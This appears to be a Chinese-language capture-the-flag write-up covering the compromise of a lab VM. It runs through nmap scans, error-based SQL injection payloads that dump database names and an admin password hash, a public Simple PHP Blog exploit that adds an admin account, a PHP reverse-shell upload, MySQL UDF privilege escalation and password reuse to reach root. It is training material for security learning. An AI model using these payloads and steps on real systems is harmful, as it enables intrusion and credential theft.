# 靶机描述

_这是一台标榜难度为简单的开源靶机。设计者在描述中说，这台靶机有很多不同的攻击立足点值得尝试。“只要获得 root 权限就能够成功”。_

![[Screenshot_2026-08-16_18_02_10.png]]

# 信息收集

1. 主机发现
目标分配到是静态 ip 10.10.10.100。为了完成这次渗透测试，我们需要配置一张网段为 10.10.10.0 的网卡，并且开启 NAT 模式。经过配置后，笔者的 kali ip 是 10.10.10.117。

2. 端口扫描
```text
# Nmap 7.99 scan initiated Sun Aug 16 09:30:37 2026 as: /usr/lib/nmap/nmap --min-rate 10000 -p- -oA nmapscan/TCPS 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up (0.00074s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:81:5F:11 (VMware)

# Nmap done at Sun Aug 16 09:30:39 2026 -- 1 IP address (1 host up) scanned in 1.65 seconds
```

我们使用通用脚本，扫描服务和系统版本信息。

```text
# Nmap 7.99 scan initiated Sun Aug 16 09:32:59 2026 as: /usr/lib/nmap/nmap -sC -sV -O -p22,80 -oA nmapscan/details 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up (0.00078s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.8p1 Debian 1ubuntu3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 85:d3:2b:01:09:42:7b:20:4e:30:03:6d:d1:8f:95:ff (DSA)
|   2048 30:7a:31:9a:1b:b8:17:e7:15:df:89:92:0e:cd:58:28 (RSA)
|_  256 10:12:64:4b:7d:ff:6a:87:37:26:38:b1:44:9f:cf:5e (ECDSA)
80/tcp open  http    Apache httpd 2.2.17 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Welcome to this Site!
|_http-server-header: Apache/2.2.17 (Ubuntu)
MAC Address: 00:0C:29:81:5F:11 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.32 - 2.6.39
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Aug 16 09:33:08 2026 -- 1 IP address (1 host up) scanned in 8.52 seconds
```

目标操作系统内核版本比较低，获得立足点后，可以考虑内核提权。运行 ssh 服务表面，这是一台 ubuntu 主机。

3. 漏洞脚本扫描
```text
# Nmap 7.99 scan initiated Sun Aug 16 09:33:55 2026 as: /usr/lib/nmap/nmap --script=vuln -p22,80 -oA nmapscan/vulns 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up (0.00067s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|       httponly flag not set
|   /login.php: 
|     PHPSESSID: 
|       httponly flag not set
|   /login/: 
|     PHPSESSID: 
|       httponly flag not set
|   /index/: 
|     PHPSESSID: 
|       httponly flag not set
|   /register/: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.100
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.10.100:80/register.php
|     Form id: 
|     Form action: register.php
|     
|     Path: http://10.10.10.100:80/login.php
|     Form id: 
|_    Form action: login.php
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /blog/: Blog
|   /login.php: Possible admin folder
|   /login/: Login page
|   /info.php: Possible information file
|   /icons/: Potentially interesting folder w/ directory listing
|   /includes/: Potentially interesting directory w/ listing on 'apache/2.2.17 (ubuntu)'
|   /index/: Potentially interesting folder
|   /info/: Potentially interesting folder
|_  /register/: Potentially interesting folder
MAC Address: 00:0C:29:81:5F:11 (VMware)

# Nmap done at Sun Aug 16 09:34:26 2026 -- 1 IP address (1 host up) scanned in 31.44 seconds
```

漏洞脚本扫描枚举出了许多有我们感兴趣的网站路径。我们可以打开浏览器，仔细浏览遍历这几个网站界面。

# WEB 渗透

界面很简洁，只有一个登录跳转按钮和注册按钮。



测试登录框，看是否有 SQL 注入。


测试有 SQL 注入。万能密码绕过了登录，却返回了一个假界面。





## SQL 注入

为啥怀疑他是假界面？可以从通过 F12 按键查看网络状态就可以得知了。网络包都发完了，它还显示 "Logging in...",很让人怀疑。经过简单单引号不闭合，我们发现这是一个字符型的报错注入。我们可以开始构造 payload。

```sql
返回当前数据库版本信息
' AND EXTRACTVALUE(RAND(),CONCAT(CHAR(126),VERSION(),CHAR(126))) # 
~5.1.54-1ubuntu4~
```



```sql
查询当前数据库的所有数据库
' AND EXTRACTVALUE(RAND(),CONCAT(CHAR(126),(SELECT GROUP_CONCAT(SCHEMA_NAME) FROM INFORMATION_SCHEMA.SCHEMATA),CHAR(126))) #
#MySQL Error: XPATH syntax error: '~information_schema,ch16,mysql~'
```



这里的 information_schema 和 mysql 都是功能性数据库。只有 ch16 像是网站服务数据库。我们需要知道这个数据库中，有哪些表。

```sql
查询当前数据库中存在哪些数据表

' AND EXTRACTVALUE(RAND(),CONCAT(CHAR(126),(SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="ch16"),CHAR(126))) #

MySQL Error: XPATH syntax error: '~users~' 
```



这个 users 说不定存储了用户的登录凭据，通过这个凭据，我们能迈出一大步。

```sql
获得字段名
' AND EXTRACTVALUE(RAND(),CONCAT(CHAR(126),(SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME="users"),CHAR(126))) #

由于长度限制，可以使用 limit 关键字逐个枚举剩余部分
' AND EXTRACTVALUE(RAND(),CONCAT(CHAR(126),(SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME="users" limit 4,1),CHAR(126))) #

最终获得字段
MySQL Error: XPATH syntax error: '~user_id,first_name,last_name,email,pass'
```



知道字段名，我们就可以获得凭据。

```sql
' AND EXTRACTVALUE(RAND(),CONCAT(CHAR(126),MID((SELECT pass FROM users limit 0,1),32,32),CHAR(126))) #
MySQL Error: XPATH syntax error: '~50ba9a4af~'  

' AND EXTRACTVALUE(RAND(),CONCAT(CHAR(126),MID((SELECT pass FROM users limit 0,1),1,32),CHAR(126))) #

MySQL Error: XPATH syntax error: '~c2c4b4e51d9e23c02c15702c136c3e9' 

MySQL Error: XPATH syntax error: '~admin@isints.com:c2c4b4e51d9e23c02c15702c136c3e950ba9a4af'

```

使用 WEB 工具破解密文



虽然获得了一个登录凭据，但是这个凭据，没法登录后台，也没法登录 ssh 。我们还得尝试其他路径。


## 公开 CMS 版本漏洞利用

在之前信息搜集过程中，发现了一个 /blog 目录。里面泄露了一个博客站点。通过查看页面源代码，搜索关键词 “Power”，发现页面暴露的 CMS 信息。




这是一个 “Powered by Simple PHP Blog 0.4.0”。按照这个关键词，在 searchsploit 上进行搜索。



结果我们比较关注两 RCE 的漏洞利用。第一遍打的时候，我直接使用 metasploit 进行漏洞利用。但是现在写 writeup ，我选择这种非框架的利用脚本。



```shell
perl 1191.pl -h http://10.10.10.100/blog -e 3 -U retro -P 000000
#使用 perl 脚本生成一个新的账户。
```

执行成功。


## 获得立足点

这个 1191.pl 脚本实际上就是帮我们修改了后端验证的加密凭据。我们可以自己创建管理员账号登录。可以在这个目录下的 password.txt 文件中进行确认。






```text
#脚本运行前

#脚本运行后
$1$678kY1qG$u349rJUFz5TXm9X/gl1kE.
```

我们成功登录后台。为了获得立足点，我们需要翻阅后台的功能，找到能够执行代码的地方。



功能栏中有个 Upload Image 选项。如果，站点没有限制可以上传的文件类型，我们就可以上传我们自己的 WebShell 木马。经过测试确实可以上传木马。我这里使用的是 kali 自带 php-reverse-shell.php，在 webshells 的 php 目录下面。



触发我们的木马。拿到立足点。






# 权限提升

获得立足点后，我首先想到的是 udf 提权。前面通过 sql 漏洞，测试出当前网站链接使用的数据库是 root@localhost 权限，具有写权限。基于这个漏洞，我们觉得 udf 提权可以试试。
## 方法一 MySQL udf 提权

在目标上进行目录枚举。发现 /var 文件夹下，有一个 mysqli_connect.php。里面记录了数据库的链接密码。



其实 www目录下也有一个类似的文件。这里，如果一台服务机器上存在多个凭据文件，我们就需要用命令将它们全部搜出来。来尝试所以的可能性。

```shell
www-data@web:/var$ find / -name mysqli_connect.php 2>/dev/null
find / -name mysqli_connect.php 2>/dev/null
/var/mysqli_connect.php
/var/www/mysqli_connect.php
www-data@web:/var$ 

```

我们需要登录 mysql 数据库，这里注意，为了方便的与 mysql 数据库交互，我们需要用 python 做一个伪终端。

成功登录进来，这里的 secure_file_priv 参数为空，说明 mysql 的读写操作范围没有限制。那么我们进行 udf 提取攻击构造。



这里我是参考 searchsploit 给出结果中的 1518.c 这个 payload。

*踩坑点*
```shell
 gcc -g -fPIC -c raptor_udf2.c
 # 需要加入 -fPIC 这个参数，表示生成位置无关的代码。
```
把 1518.c 的文件放在本地开发的 web 服务器上。通过当前立足点下载下来，编译。然后按照 1518.c 这个 payload 信息。进行操作。其中写入的位置，可以考虑数据库插件处。一般有权限。





写入我们的提取命令



执行 rootbash 获得 root shell



## 方法二 密码碰撞

之前获得 root 数据库密码是 root@ISIntS。会不会这个也是 root 凭据口令？
经过尝试确实就是。




# 总结

这台靶机整体上暴露了许多漏洞利用点。首先我们通过端口扫描，发现靶机开放了 22，80 端口。通过首界面，发现SQL 注入类型中，字符型的报错注入。但是获得的凭据信息没有利用价值。通过 SQL 写 webshell 由于权限问题，没有尝试成功。我们只能思考其他漏洞利用点。我们发现 /blog 目录下的博客站点存在公开的漏洞利用脚本。我们成功获得后台的登录凭据。经过搜索，后台存在任意文件上传漏洞。通过上传 webshell，成功获得立足点。
在权限提升过程中，我们参考前面 SQL 注入获得的战果，发现可以尝试 udf 提权这种方式，通过登录数据库查看到 secure_file_priv 参数为空这一结果，我们更加笃定 udf 提权的可行性。最终成功提权。拿下整台靶机。